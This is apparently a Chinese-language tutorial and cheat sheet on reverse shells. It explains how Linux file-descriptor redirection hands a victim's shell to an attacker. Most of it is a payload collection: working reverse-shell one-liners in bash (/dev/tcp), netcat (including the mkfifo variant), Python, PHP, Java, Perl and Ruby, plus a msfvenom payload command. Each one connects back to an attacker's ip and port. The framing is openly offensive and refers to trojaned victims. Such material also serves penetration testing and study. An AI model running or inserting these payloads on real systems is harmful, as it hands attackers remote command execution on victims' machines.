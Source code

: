 # 反弹shell



## 前言
反弹shell（reverse shell）是控制端（攻击机）监听TCP/IP端口，而被控制端（目标主机）发送请求连接该端口，并将命令行的输入输出转到控制端。反弹shell与telnet，ssh等标准shell对应，其本质就是将网络概念中的客户端和服务端互换。

<br/>

## 反弹shell
通常用于被控端因防火墙受限、权限不足、端口被占用等情形。
举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

有如下情况：
- 某客户机中了你的网马，但是它在局域网内，你直接连接不了。 
- 目标机器的ip动态改变，你不能持续控制。
- 由于防火墙等限制，对方机器只能发送请求，不能接收请求。
- 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

来源：[玄魂](https://www.zhihu.com/question/24503813)

<br/>

## 反弹shell原理

使用反弹shell之前，需要先来了解一下Linux的文件描述符，在linux启动后，会默认打开3个文件描述符：
- 0 - stdin 标准输入  输入重定向 `<` 或 `<<`
- 1 - stdout 标准输出 输出重定向 `>` 或 `>>`
- 2 - stderr 标准错误输出 错误输出重定向 `2>` 或 `2>>`

<br/>

因为在Linux中一切皆是文件，所以可以利用文件描述符来进行文件输入输出的重定向，这里注重了解`>&`这个符号
- 当`>&`后面接文件时，表示将标准输出和标准错误输出重定向至文件
- 当`>&`后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符

<br/>

现在以一个反弹shell的语句为例，在攻击机终端输入监听端口的命令
```bash
nc -lvvp port	# port表示监听的端口
```
目标主机（靶机）终端输入命令
```bash
bash -i >& /dev/tcp/ip/port  0>&1	#ip是攻击机的ip，port 为攻击机监听的端口号
```
这样就可以在攻击机获得一个反弹shell了。现在来解释这两条bash命令：

`nc -lvvp port`：
nc表示netcat，`-l`监听，`-v`输出交互或错误信息，`-p`指定端口

`bash -i >& /dev/tcp/ip/port  0>&1`：
`bash -i`表示在本地开启一个bash（shell）， `/dev/tcp/`是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接。`>&`后面跟着`/dev/tcp/ip/port`代表将标准输出和标准错误输出通过soket连接重定向到攻击机，如果此时攻击机监听对应的端口，那么就会收到目标主机的标准输出和标准错误输出。最后`0>&1`将标准输入重定向到标准输出，因为标准输出已经重定向到攻击机的指定端口，所以现在标准输入也是重定向到攻击机。那么现在攻击机就获得一个标准的shell，一次反弹shell就这样完成。

<br/>

## 其他方法
了解完反弹shell的使用原理就可以尝试用其他方法来实现反弹shell，但归根到底其本质还是一样的，都是通过重定向让攻击机终端获取目标主机的标准输入/输出。以下`ip`均指发起攻击机ip，`port`为未被占用的端口。同时攻击机均处于监听状态（`nc -lvvp port`）。


### nc
在使用nc进行反弹shell，需要目标主机安装nc
```bash
nc -e /bin/bash ip port 
```
但是出于安全考虑，很多Linux版本的nc并没有`-e`这个选项，但是仍然可以实现反弹shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
```
mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php
使用php的fsockopen实现反弹shell
```php
php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```
### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Perl
```perl
perl -e 'use Socket;$i="ip";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"ip:port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

###  Ruby
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("ip","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### msfvenom
msfvenom可以直接生成反弹shell，通过`-l`和`grep` 筛选列出对应的反弹shell `msfvenom -l payloads | grep 'cmd/unix/reverse'` 
在目标主机终端输入msfvenom生成的payload，攻击机在监听状态下就可以获取一个反弹shell
```bash
 msfvenom -p 'cmd/unix/reverse_netcat' lhost=ip lport=port
```


<br/>

## 参考


https://www.freebuf.com/articles/system/178150.html
https://www.anquanke.com/post/id/87017
https://xz.aliyun.com/t/2549#toc-1

